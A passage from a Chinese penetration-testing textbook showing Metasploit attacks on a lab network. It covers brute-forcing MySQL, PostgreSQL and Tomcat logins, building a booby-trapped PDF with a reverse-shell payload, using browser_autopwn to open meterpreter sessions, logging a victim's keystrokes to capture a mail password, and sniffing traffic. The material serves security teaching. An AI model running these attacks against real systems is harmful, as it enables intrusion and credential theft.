

6.4 渗透攻击应用
前面依次介绍了Armitage、MSFCONSOLE和MSFCLI接口的概念及使用。本节将介绍使用MSFCONSOLE工具渗透攻击MySQL数据库服务、PostgreSQL数据库服务、Tomcat服务和PDF文件等。
6.4.1 渗透攻击MySQL数据库服务
MySQL是一个关系型数据库管理系统，由瑞典MySQL AB公司开发，目前属于Oracle公司。在Metasploitable系统中，MySQL的身份认证存在漏洞。该漏洞有可能会让潜在的攻击者不必提供正确的身份证书便可访问MySQL数据库。所以，用户可以利用该漏洞，对MySQL服务进行渗透攻击。恰好Metasploit框架提供了一套针对MySQL数据库的辅助模块，可以帮助用户更有效的进行渗透测试。本小节将介绍使用Metasploit的MySQL扫描模块渗透攻击MySQL数据库服务。渗透攻击Metasploitable系统中MySQL数据库服务的具体操作步骤如下所示。
（1）启动MSFCONSOLE。执行命令如下所示：
root@kali:~# msfconsole
（2）扫描所有有效的MySQL模块。执行命令如下所示：
输出的信息显示了MySQL上可用的模块。从这些模块中，选择渗透攻击的模块进行攻击。
（3）这里使用MySQL扫描模块。执行命令如下所示：
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) >
（4）显示模块的有效选项。执行命令如下所示：
以上的信息显示了在mysql_login模块下可设置的选项。从输出的结果中可以看到显示了四列信息，分别是选项名称、当前设置、需求及描述。其中Required为yes的选项是必须配置的，反之可以不用配置。对于选项的作用，Description都有相应的介绍。
（5）为渗透攻击指定目标系统、用户文件和密码文件的位置。执行命令如下所示：
msf auxiliary(mysql_login) > set RHOSTS 192.168.41.142
RHOST => 192.168.41.142
msf auxiliary(mysql_login) > set user_file /root/Desktop/usernames.txt
user_file => /root/Desktop/usernames.txt
msf auxiliary(mysql_login) > set pass_file /root/Desktop/passwords.txt
pass_file => /root/Desktop/passwords.txt
以上信息设置了目标系统的地址，用户文件和密码文件的路径。
（6）启动渗透攻击。执行命令如下所示：
msf auxiliary(mysql_login) > exploit
[deprecated] I18n.enforce_available_locales will default to true in the future. If you really want to skip validation of your locale you can set I18n.enforce_available_locales = false to avoid this message.
[*] 192.168.41.142:3306 MYSQL - Found remote MySQL version 5.0.51a
[*] 192.168.41.142:3306 MYSQL - [01/40] - Trying username:'sa' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [02/40] - Trying username:'root' with password:"
[+] 192.168.41.142:3306 - SUCCESSFUL LOGIN 'root' : "
[*] 192.168.41.142:3306 MYSQL - [03/40] - Trying username:'bob' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [04/40] - Trying username:'ftp' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [05/40] - Trying username:'apache' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [06/40] - Trying username:'named' with password:"
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [07/40] - Trying username:'sa' with password:'sa'
[-] Access denied
[*] 192.168.41.142:3306 MYSQL - [35/40] - Trying username:'named' with password:'password'
[-] Access denied
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
输出的信息是渗透攻击的一个过程，尝试使用指定的用户名/密码文件中的用户名和密码连接MySQL服务器。在渗透攻击过程中，Metasploit会尝试输入用户名和密码文件包含的用户名和密码组合。从输出的信息中可以看到，已测试出MySQL数据库服务器的用户名和密码分别是root和password。
6.4.2 渗透攻击PostgreSQL数据库服务
PostgreSQL是一个自由的对象——关系数据库服务（数据库管理系统）。它在灵活的BSD-风格许可证下发行。当第一次启动msfconsole时，Kali中的Metasploit会创建名称为msf3的PostgreSQL数据库，并生成保存渗透测试数据所需的数据表。然后，使用名称为msf3的用户，自动连接到msf3数据库。所以，攻击者可以利用这样的漏洞自动的连接到PostgreSQL数据库。本小节将介绍使用Metasploit的PostgreSQL扫描模块渗透攻击PostgreSQL数据库服务。渗透攻击PostgreSQL数据库服务的具体操作步骤如下所示。
（1）启动MSFCONSOLE。执行命令如下所示：
root@kali:~# msfconsole
（2）搜索所有有效的PostgreSQL模块。执行命令如下所示：
以上信息显示了PostgreSQL所有相关的模块。此时可以选择相应的模块进行攻击。
（3）使用PostgreSQL扫描模块。执行命令如下所示：
msf > use auxiliary/scanner/postgres/postgres_login
（4）查看PostgreSQL模块的所有选项。执行命令如下所示：
以上信息显示了postgres_login模块中可配置的选项。根据用户的攻击情况，选择相应选项进行配置。
（5）使用RHOST选项设置目标系统（本例中为Metasploitable 2）。执行命令如下所示：
msf auxiliary(postgres_login) > set RHOSTS 192.168.41.142
RHOST => 192.168.41.142
（6）指定用户名文件。执行命令如下所示：
msf auxiliary(postgres_login) > set user_file /usr/share/metasploit- framework/data/wordlists/ postgres_default_user.txt
user_file => /usr/share/metasploit-framework/data/wordlists /postgres_default_user.txt
（7）指定密码文件。执行命令如下所示：
msf auxiliary(postgres_login) > set pass_file /usr/share/metasploit- framework/data/wordlists/ postgres_default_pass.txt
pass_file => /usr/share/metasploit-framework/data/wordlists/ postgres_default_pass.txt
（8）运行渗透攻击。执行命令如下所示：
msf auxiliary(postgres_login) > exploit
[*] 192.168.41.142:5432 Postgres - [01/21] - Trying username:'postgres' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'postgres':"
[-] 192.168.41.142:5432 Postgres - [01/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [02/21] - Trying username:" with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: ":"
[-] 192.168.41.142:5432 Postgres - [02/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [03/21] - Trying username:'scott' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':"
[-] 192.168.41.142:5432 Postgres - [03/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [04/21] - Trying username:'admin' with password:" on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':"
[-] 192.168.41.142:5432 Postgres - [04/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [05/21] - Trying username:'postgres' with password:'postgres' on database 'template1'
[+] 192.168.41.142:5432 Postgres - Logged in to 'template1' with 'postgres':'postgres'
[+] 192.168.41.142:5432 Postgres - Success: postgres:postgres (Database 'template1' succeeded.)
[*] 192.168.41.142:5432 Postgres - Disconnected
[*] 192.168.41.142:5432 Postgres - [06/21] - Trying username:'scott' with password:'scott' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':'scott'
[-] 192.168.41.142:5432 Postgres - [06/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [07/21] - Trying username:'admin' with password:'admin' on database 'template1'
……
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'scott':'admin'
[-] 192.168.41.142:5432 Postgres - [16/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [17/21] - Trying username:'admin' with password:'tiger' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':'tiger'
[-] 192.168.41.142:5432 Postgres - [17/21] - Username/Password failed.
[*] 192.168.41.142:5432 Postgres - [18/21] - Trying username:'admin' with password:'postgres' on database 'template1'
[-] 192.168.41.142:5432 Postgres - Invalid username or password: 'admin':'postgres'
[-] 192.168.41.142:5432 Postgres - [18/21] - Username/Password failed.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
以上输出的信息是PostgreSQL渗透攻击的一个过程。测试到PostgreSQL数据库服务的用户名和密码分别是Postgres和Postgres。
6.4.3 渗透攻击Tomcat服务
Tomcat服务器是一个免费的开放源代码的Web应用服务器。它可以运行在Linux和Windows等多个平台上。由于其性能稳定、扩展性好和免费等特点深受广大用户的喜爱。目前，互联网上绝大多数Java Web等应用都运行在Tomcat服务器上。Tomcat默认存在一个管理后台，默认的管理地址是http://IP或域名:端口/manager/html。通过此后台，可以在不重启Tomcat服务的情况下方便地部署、启动、停止或卸载Web应用。但是如果配置不当的话就存在很大的安全隐患。攻击者利用这个漏洞，可以非常快速、轻松地入侵一台服务器。本小节将介绍渗透攻击Tomcat服务的方法。渗透攻击Tomcat服务的具体操作步骤如下所示。
（1）启动MSFCONSOLE。执行命令如下所示：
root@kali:~# msfconsole
（2）搜索所有有效的Tomcat模块。执行命令如下所示：
以上输出的信息显示了Tomcat服务的可用模块。现在用户可以选择易攻击的模块，进行渗透攻击。
（3）使用Tomcat管理登录模块进行渗透攻击。执行命令如下所示：
msf auxiliary(postgres_login) > use auxiliary/scanner/http/ tomcat_mgr_login
（4）查看tomcat_mgr_login模块的有效选项。执行命令如下所示：
以上输出的信息显示了tomcat_mgr_login模块中有效的选项。此时用户可以选择相应的模块，进行配置。
（5）设置Pass_File选项。执行命令如下所示：
msf auxiliary(tomcat_mgr_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_pass.txt
以上输出的信息显示了指定密码文件的绝对路径。
（6）设置User_File选项。执行命令如下所示：
msf auxiliary(tomcat_mgr_login) > set USER_FILE /usr/share/metasploit- framework/data/wordlists/tomcat_mgr_default_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/ tomcat_mgr_default_users.txt
以上输出的信息显示了指定用户名文件的决定路径。
（7）使用RHOSTS选项设置目标系统（本例使用的是Metasploitable 2）。执行命令如下所示：
msf auxiliary(tomcat_mgr_login) > set RHOSTS 192.168.41.142
RHOSTS => 192.168.41.142
输出的信息表示指定攻击的目标系统地址为192.168.41.142。
（8）设置RPORT选项为8180。执行命令如下所示：
msf auxiliary(tomcat_mgr_login) > set RPORT 8180
RPORT => 8180
以上信息设置了攻击目标系统的端口号为8180。 （9）运行渗透攻击。执行命令如下所示：
msf > exploit
[*] 192.168.41.142:8180 TOMCAT_MGR - [01/63] - Trying username:" with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [01/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as "
[*] 192.168.41.142:8180 TOMCAT_MGR - [02/63] - Trying username:'admin' with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [02/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'admin'
[*] 192.168.41.142:8180 TOMCAT_MGR - [12/63] - Trying username:'xampp' with password:"
[-] 192.168.41.142:8180 TOMCAT_MGR - [12/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'xampp'
[*] 192.168.41.142:8180 TOMCAT_MGR - [13/63] - Trying username:'admin' with password:'admin'
[-] 192.168.41.142:8180 TOMCAT_MGR - [13/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'admin'
[*] 192.168.41.142:8180 TOMCAT_MGR - [14/63] - Trying username:'manager' with password:'manager'
[-] 192.168.41.142:8180 TOMCAT_MGR - [14/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'manager'
[*] 192.168.41.142:8180 TOMCAT_MGR - [15/63] - Trying username:'role1' with password:'role1'
[-] 192.168.41.142:8180 TOMCAT_MGR - [15/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'role1'
[*] 192.168.41.142:8180 TOMCAT_MGR - [16/63] - Trying username:'root' with password:'root'
[-] 192.168.41.142:8180 TOMCAT_MGR - [16/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'root'
[*] 192.168.41.142:8180 TOMCAT_MGR - [17/63] - Trying username:'tomcat' with password:'tomcat'
[+] http://192.168.41.142:8180/manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] successful login 'tomcat' : 'tomcat'
[*] 192.168.41.142:8180 TOMCAT_MGR - [18/63] - Trying username:'both' with password:'both'
[-] 192.168.41.142:8180 TOMCAT_MGR - [18/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'both'
[*] 192.168.41.142:8180 TOMCAT_MGR - [58/63] - Trying username:'both' with password:'s3cret'
[-] 192.168.41.142:8180 TOMCAT_MGR - [58/63] - /manager/html [Apache-Coyote/1.1] [Tomcat Application Manager] failed to login as 'both'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
以上输出信息显示了攻击Tomcat服务的一个过程。从输出的结果中可以看到登录Tomcat服务的用户名和密码都为tomcat。
6.4.4 渗透攻击Telnet服务
Telnet服务是一种“客户端/服务器”架构，在整个Telnet运行的流程架构中一定包括两个组件，分别是Telnet服务器和Telnet客户端。由于Telnet是使用明文的方式传输数据的，所以并不安全。这里就可以使用Metasplolit中的一个模块，可以破解出Telnet服务的用户名和密码。下面将介绍渗透攻击Telnet服务。
（1）启动MSF终端。执行命令如下所示：
root@kali:~# msfconsole
msf>
（2）使用telnet_version模块，并查看可配置的选项参数。执行命令如下所示：
从输出的信息中，可以看到有四个必须配置选项。其中三个选项已经配置，现在配置RHOSTS选项。
（3）配置RHOSTS选项，并启动扫描。执行命令如下所示：
从以上输出的信息，仅看到一堆文本信息。但是在这些信息中可以看到，显示了Telnet的登录认证信息Login with msfadmin/msfadmin to get started。从这条信息中，可以得知目标主机Telnet服务的用户名和密码都为msfadmin。此时可以尝试登录。
（4）登录目标主机的Telnet服务。执行命令如下所示：
root@kali:~# telnet -l msfadmin 192.168.6.105
Trying 192.168.6.105…
Connected to 192.168.6.105.
Escape character is '^]'.
Password: #输入密码msfadmin
Last login: Tue Jul 8 06:32:46 EDT 2014 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$
以上信息显示了登录Telnet服务的信息。在输出信息中看到msfadmin@metasploitable:~$提示符，则表示成功登录了Telnet服务。此时可以执行一些标准的Linux命令。例如，查看多个组的成员，执行命令如下所示：
msfadmin@metasploitable:~$ id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom), 25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
输出信息中显示了msfadmin用户的相关信息。其中，gid表示groups中第1个组账号为该用户的基本组，groups中的其他组账号为该用户的附加组。
6.4.5 渗透攻击Samba服务
Samba是一套实现SMB（Server Messages Block）协议、跨平台进行文件共享和打印共享服务的程序。Samba服务对应的端口有139和445等，只要开启这些端口后，主机就可能存在Samba服务远程溢出漏洞。下面将介绍渗透攻击Samba服务器。
（1）启动MSF终端。执行命令如下所示：
root@kali:~# msfconsole
msf>
（2）使用smb_version模块，并查看该模块可配置的选项参数。执行命令如下所示：
（3）配置RHOSTS选项。执行命令如下所示：
msf auxiliary(smb_version) > set RHOSTS 192.168.6.105
RHOSTS => 192.168.6.105
（4）启动扫描。执行命令如下所示：
msf auxiliary(smb_version) > exploit
[*] 192.168.6.105:445 is running Unix Samba 3.0.20-Debian (language: Unknown) (domain:WORKGROUP)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
从输出的信息中，可以看到扫描到正在运行的Samba服务器及其版本。
在Metasploit中使用smb_version模块，还可以指定扫描某个网络内所有运行Samba服务器的主机。下面将介绍扫描192.168.6.0/24网络内开启Samba服务器的所有主机。
（1）选择使用smb_version模块。执行命令如下所示：
msf > use auxiliary/scanner/smb/smb_version
（2）配置smb_version模块中可配置的选项参数。执行命令如下所示：
msf auxiliary(smb_version) > set RHOSTS 192.168.6.0/24
RHOSTS => 192.168.6.0/24
msf auxiliary(smb_version) > set THREADS 255
THREADS => 255
（3）启动扫描。执行命令如下所示：
msf auxiliary(smb_version) > exploit
[*] 192.168.6.106:445 is running Windows 7 Ultimate 7601 Service Pack (Build 1) (language: Unknown) (name:WIN-RKPKQFBLG6C) (domain:WORKGROUP)
[*] 192.168.6.105:445 is running Unix Samba 3.0.20-Debian (language: Unknown) (domain:WORKGROUP)
[*] 192.168.6.104:445 is running Windows XP Service Pack 0 / 1 (language: Chinese - Traditional) (name:LYW) (domain:LYW)
[*] 192.168.6.110:445 is running Windows XP Service Pack 0 / 1 (language: Chinese - Traditional) (name:AA-886OKJM26FSW) (domain:WORKGROUP)
[*] Scanned 255 of 256 hosts (099% complete)
[*] Scanned 256 of 256 hosts (100% complete)
[*] Auxiliary module execution completed
从输出的信息中，可以看到192.168.6.0/24网络内有四台主机上正在运行着Samba服务器。在显示的信息中，可以看到运行Samba服务器的操作系统类型。扫描到开启Samba服务器的主机后，就可以进行渗透攻击了。
6.4.6 PDF文件攻击
PDF是一种文件格式，该文件的使用比较广泛，并且容易传输。通常在工作中，用户都是从工作程序中打开了一个合法的PDF文档。当打开该文档时，该用户的主机就有可能被攻击。Metasploit提供了一个渗透攻击模块，可以来创建一个攻击载荷，通过传递该攻击载荷对目标系统进行渗透攻击。本小节将介绍创建PDF文件攻击载荷。
创建PDF文件的具体操作步骤如下所示。
（1）启动MSFCONSOLE。执行命令如下所示：
root@kali:~# msfconsole
（2）搜索所有有效的PDF模块。执行命令如下所示：
以上输出信息显示了PDF所有可用的模块。此时可以选择相应模块进行配置，配置后方便进行攻击。
（3）使用Adobe PDF Embedded EXE模块。执行命令如下所示：
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
（4）查看adobe_pdf_embedded_exe模块有效的选项。执行命令如下所示：

以上信息显示了adobe_pdf_embedded_exe模块所有可用的选项。此时配置必须的选项，然后进行渗透攻击。
（5）设置用户想要生成的PDF文件名。执行命令如下所示：
msf exploit(adobe_pdf_embedded_exe) > set FILENAME evildocument.pdf
FILENAME => evildocument.pdf
（6）设置INFILENAME选项。为了利用，使用该选项指定用户访问的PDF文件位置。执行命令如下所示：
msf exploit(adobe_pdf_embedded_exe) > set INFILENAME /root/Desktop/ willie.pdf
INFILENAME => /root/Desktop/willie.pdf
（7）运行exploit。执行命令如下所示：
msf exploit(adobe_pdf_embedded_exe) > exploit
[*] Reading in '/root/Desktop/willie.pdf'…
[*] Parsing '/root/Desktop/willie.pdf'…
[*] Using 'windows/meterpreter/reverse_tcp' as payload…
[*] Parsing Successful. Creating 'evildocument.pdf' file…
[+] evildocument.pdf stored at /root/.msf4/local/evildocument.pdf
输出的信息显示了evildocument.pdf文件已经生成，而且被保存到/root/.msf4/local目录中。
6.4.7 使用browser_autopwn模块渗透攻击浏览器
Browser Autopwn是由Metasploit提供的一个辅助模块。当访问一个Web页面时，它允许用户自动地攻击一个入侵主机。Browser Autopwn在攻击之前，会先进行指纹信息操作，这意味着它不会攻击Mozilla Firefox浏览器，而只会攻击系统自带的Internet Explorer 7浏览器。本小节将介绍browser_autopwn模块的使用。
加载browser_autopwn模块的具体操作步骤如下所示。
（1）启动MSFCONSOLE。执行命令如下所示：
root@kali:~# msfconsole
（2）查询autopwn模块。
输出的信息显示了有一个autopwn模块。
（3）使用browser_autopwn模块。执行命令如下所示：
msf > use auxiliary/server/browser_autopwn
执行以上命令后，没有任何信息输出。
（4）设置payload。执行命令如下所示：
msf auxiliary(browser_autopwn) > set payload windows/meterpreter/ reverse_tcp
payload => windows/meterpreter/reverse_tcp
（5）查看payload的选项。执行命令如下所示：
输出的信息显示了payload模块的选项。此时就可以选择需要设置的选项进行配置。
（6）配置LHOST选项。执行命令如下所示：
msf auxiliary(browser_autopwn) > set LHOST 192.168.41.234
LHOST => 192.168.41.234
以上输出的信息表示指定本地主机使用的IP地址是192.168.41.234。
（7）配置URIPATH选项。执行命令如下所示：
msf auxiliary(browser_autopwn) > set URIPATH "filetypes"
URIPATH => filetypes
（8）启用渗透攻击。执行命令如下所示：
msf auxiliary(browser_autopwn) > exploit
[*] Auxiliary module execution completed
[*] Setup
[*] Obfuscating initial javascript 2014-04-30 19:00:49 +0800
[*] Done in 0.718574284 seconds
msf auxiliary(browser_autopwn) >
[*] Starting exploit modules on host 192.168.41.234…
[*] ---
[*] Starting exploit multi/browser/java_atomicreferencearray with payload java/meterpreter/ reverse_tcp
[*] Using URL: http://0.0.0.0:8080/BjlwyiXpeQHIG
[*] Local IP: http://192.168.41.234:8080/BjlwyiXpeQHIG
[*] Server started.
[*] Starting exploit multi/browser/java_jre17_jmxbean with payload java/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/NVVrXNZ
[*] Local IP: http://192.168.41.234:8080/NVVrXNZ
[*] Server started.
…省略部分内容…
[*] Started reverse handler on 192.168.41.234:6666
[*] Started reverse handler on 192.168.41.234:7777
[*] Starting the payload handler…
[*] Starting the payload handler…
[*] --- Done, found 16 exploit modules
[*] Using URL: http://0.0.0.0:8080/filetypes
[*] Local IP: http://192.168.41.234:8080/filetypes
[*] Server started.
[*] 192.168.41.146 browser_autopwn - Handling '/filetypes' #访问主机的客户端
[*] 192.168.41.146 browser_autopwn - Handling '/filetypes'
[*] Meterpreter session 1 opened (192.168.41.234:3333 -> 192.168.41.146:1073) at 2014-04-30 19:16:54 +0800
[*] Sending stage (769024 bytes) to 192.168.41.146
[*] Session ID 1 (192.168.41.234:3333 -> 192.168.41.146:1071) processing InitialAutoRunScript 'migrate -f'
[+] Successfully migrated to process
[*] Current server process: qjRc.exe (1824)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 1260
以上输出信息是一个漏洞攻击过程。此过程中输出的内容较多，由于篇幅的原因，中间部分内容使用省略号（……）取代了。从输出的过程中看到客户端192.168.41.146访问了192.168.41.234主机，并成功建立了一个活跃的会话。该会话是由客户端访问后产生的。当渗透测试启动后，在客户端的IE浏览器中输入http://IP Address:8080/filetypes访问主机，将产生活跃的会话。
（9）从第（8）步的输出结果中可以看到，成功建立的会话ID为1。为了激活此会话，执行命令如下所示：
msf auxiliary(browser_autopwn) > sessions -i 1
[*] Starting interaction with 1…
meterpreter >
从输出的结果中可以看到，启动了交互会话1进入到了Meterpreter命令行。
（10）查看能运行的Meterpreter命令列表。执行命令如下所示：
输出的信息显示了Meterpreter命令行下可运行的所有命令。输出的信息中，每个命令的作用都有详细的描述。用户可以根据自己的情况，执行相应的命令。
（11）启动键盘输入，执行命令如下所示：
meterpreter > keyscan_start
Starting the keystroke sniffer…
（12）获取键盘输入信息，执行命令如下所示：
meterpreter > keyscan_dump
Dumping captured keystrokes…
<Back> <Back> <Back> <Back> <N1> <N0> <N1> <N2> <N0> <N7> <N3> <N5> <N5> <N4> <Back> <Back> <Back> <Back> <Back> mail.qq.com <Return> <N1> <N2> <N3> <N4> <N5> <N6> <N7> <N8> <N9> <N1> 123456 <Return>
输出的信息显示了客户端在浏览器中输入的所有信息。如访问了mail.qq.com网站，登录的邮箱地址为1234567891，密码为123456。
6.4.8 在Metasploit中捕获包
在Metasploit中，通过使用模块进行渗透攻击可以获取到一个Meterpreter Shell。在Meterpreter Shell中，可以捕获目标系统中的数据包。下面将介绍如何在Metasploit中捕获数据包。
（1）首先要确定获取到一个活跃的会话，并有一个连接到目标主机的Meterpreter Shell。下面是Windows 7连接到攻击主机的一个Meterpreter Shell，如下所示：
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.6.103:4444
[*] Starting the payload handler…
[*] Sending stage (769536 bytes) to 192.168.6.110
[*] Meterpreter session 1 opened (192.168.6.103:4444 -> 192.168.6.110:2478) at 2014-07-17 10:44:47 +0800
meterpreter >
从输出的信息中，可以看到成功的打开了一个Meterpreter会话。接下来，就可以使用run packetrecorder命令捕获目标系统的数据包了。
（2）查看packetrecorder命令的参数。执行命令如下所示：
meterpreter > run packetrecorder
Meterpreter Script for capturing packets in to a PCAP file
on a target host given a interface ID.
OPTIONS:
-h Help menu.
-i <opt> Interface ID number where all packet capture will be done.
-l <opt> Specify and alternate folder to save PCAP file.
-li List interfaces that can be used for capture.
-t <opt> Time interval in seconds between recollection of packet, default 30 seconds.
以上输出的信息显示run packetrecorder命令的作用和可用选项参数。在捕获数据前，首先要指定捕获接口。所以，需要查看主机中可用的捕获接口。
（3）查看可用的捕获网络接口。执行命令如下所示：
meterpreter > run packetrecorder -li
1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
从输出的信息中，可以看到只有一个网络接口。
（4）指定捕获接口开始捕获数据，并将捕获的文件保存到桌面上。执行命令如下所示：
meterpreter > run packetrecorder -i 1 -l /root/Desktop
[*] Starting Packet capture on interface 1
[+] Packet capture started
[*] Packets being saved in to /root/Desktop/logs/packetrecorder/ AA-886OKJM26FSW_ 20140717.2700/AA-886OKJM26FSW_20140717.5608.cap
[*] Packet capture interval is 30 Seconds
……
^C
[*] Interrupt
[+] Stopping Packet sniffer…
执行以上命令后，将开始捕获目标主机的数据。捕获的文件将会保存到指定位置的一个logs目录中。以上捕获过程不会自动停止，如果要停止，则按下Ctrl+C组合键。
在Metasploit中捕获的数据包，可以使用Wireshark工具打开并进行分析。在Kali Linux中，默认已经安装了Wireshark工具。
【实例6-3】下面演示使用Wireshark工具，打开捕获的文件。具体操作步骤如下所示。
（1）启动Wireshark，使它在后台运行。执行命令如下所示：
root@kali:~# wireshark &
或者在图形界面依次选择“应用程序”|Kali Linux|Top 10 Security Tools|wireshark命令，将显示如图6.16所示的界面。
图6.16 警告信息
（2）该界面显示的警告信息是因为当前使用超级用户运行该程序的。此时单击“确定”按钮，将显示如图6.17所示的界面。
图6.17 Wireshark主界面
（3）该界面就是Wireshark的主界面。此时在菜单栏中依次选择File|Open命令，选择要打开的捕获文件。打开捕获文件，界面如图6.18所示。
图6.18 捕获的数据包
（4）从该界面可以看到捕获的所有数据包。在Wireshark中，还可以通过使用各种显示过滤器过滤一类型的数据包。如果想查看一个完整的会话，右键单击任何一行并选择Follow TCP Stream命令查看，如图6.19所示。
图6.19 FTP会话
（5）该界面显示了一个完整的FTP会话。如登录FTP服务器的用户名、密码、端口及访问的目录等。
在Kali中，可以使用Xplico工具分析Wireshark捕获的文件。但是，该文件的格式必须是.pcap。该工具默认在Kali中没有安装，需要先安装才可以使用。下面将介绍安装并使用Xplico工具分析数据包。
安装Xplico工具。执行命令如下所示：
root@kali:~# apt-get install xplico
执行以上命令后，运行过程中没有报错的话，则Xplico工具就安装成功了。接下来还需要将Xplico服务启动，才可以使用。由于Xplico基于Web界面，所以还需要启动Apache 2服务。
启动Apache服务。执行命令如下所示：
root@kali:~# service apache2 start
[OK] Start web server: apache2.
从输出的信息中，可以看到Apache2服务已启动。
注意：在某个系统中启动Apache 2服务时，可能会出现[….] Starting web server: apache2apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1 for ServerName信息。这是因为Apache 2服务器的配置文件中没有配置ServerName选项，该信息不会影响Web服务器的访问。
启动Xplico服务。执行命令如下所示：
root@kali:~# service xplico start
[....] Starting : XplicoModifying priority to -1
. ok
从以上输出信息，可以看到Xplico服务已成功启动。现在就可以使用Xplico服务了。
【实例6-4】使用Xplico工具解析捕获的pcap文件。具体操作步骤如下所示。
（1）在浏览器中输入http://localhost:9876，将打开如图6.20所示的界面。
图6.20 Xplico登录界面
（2）该界面用来登录Xplico服务。Xplico默认的用户名和密码都是xplico，输入用户名和密码成功登录Xplico后，将显示如图6.21所示的界面。
图6.21 案例列表
（3）从该界面可以看到没有任何内容。默认Xplico服务中，没有任何案例及会话。需要创建案例及会话后，才可以解析pcap文件。首先创建案例，在该界面单击左侧栏中的New Case命令，将显示如图6.22所示的界面。
图6.22 新建案例
（4）在该界面选择Uploading PCAP capture file/s，并指定案例名。本例中设置为Test，然后单击Create按钮，将显示如图6.23所示的界面。
图6.23 新建的案例
（5）在该界面的案例列表中显示了新建的案例。此时单击Test，查看案例中的会话，如图6.24所示。
图6.24 监听的会话
（6）从该界面可以看到没有任何会话信息，接下来创建会话。单击左侧栏中的New Session命令，将显示如图6.25所示的界面。

图6.25 新建会话
（7）在该界面Session name对应的文本框中输入想创建的会话名，然后单击Create按钮，将显示如图6.26所示的界面。
图6.26 新建的会话
（8）从该界面可以看到新建了一个名为Windows XP Target的会话。此时进入该会话中，就可以加载pcap文件解析分析了。单击会话名WindowsXPtarget，将显示如图6.27所示的界面。
图6.27 上传pcap文件
（9）该界面是用来显示pcap文件详细信息的。目前还没有上传任何pcap文件，所以单击Browse按钮选择要解析的捕获文件。然后单击Upload按钮，将显示如图6.28所示的界面。
图6.28 成功上传了捕获文件
（10）从该界面可以看到pcap文件分为几个部分。关于pcap文件的每类型数据包，可以对应的查看。该界面显示了10种类型，如HTTP、MMS、Emails、FTP-TFTP-HTTP file和Web Mail等。在该界面单击左侧栏中的Web并选择Site命令，将显示如图6.29所示的界面。
图6.29 显示了捕获文件中的站点
（11）该界面显示了捕获文件中所有访问的站点，从该界面的底部可以看到共有8页信息。在该界面也可以进行搜索。例如搜索baidu，将显示如图6.30所示的界面。
图6.30 搜索结果
（12）从该界面可以看到，搜索的结果共有3页。如果想查看目标系统访问过的图片，单击左侧栏中的Image选项，将显示如图6.31所示的界面。
图6.31 访问的图片
（13）从该界面可以看到目标系统访问过的所有图片信息。